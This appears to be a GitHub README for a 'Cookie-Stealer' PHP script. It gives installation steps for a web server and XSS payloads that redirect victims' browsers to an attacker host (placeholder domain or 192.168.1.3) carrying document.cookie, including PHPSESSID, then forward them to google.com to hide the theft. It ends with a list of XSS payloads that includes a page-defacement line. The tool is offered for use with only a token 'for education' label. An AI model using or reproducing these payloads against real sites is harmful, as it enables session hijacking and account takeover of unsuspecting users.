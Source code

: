 # Cookie-Stealer

### This Basic Script Let you get "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**
<h2>How To Use It</h2>

1. The File Caled **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can chnage it whatever you want the orignal is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`


### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```
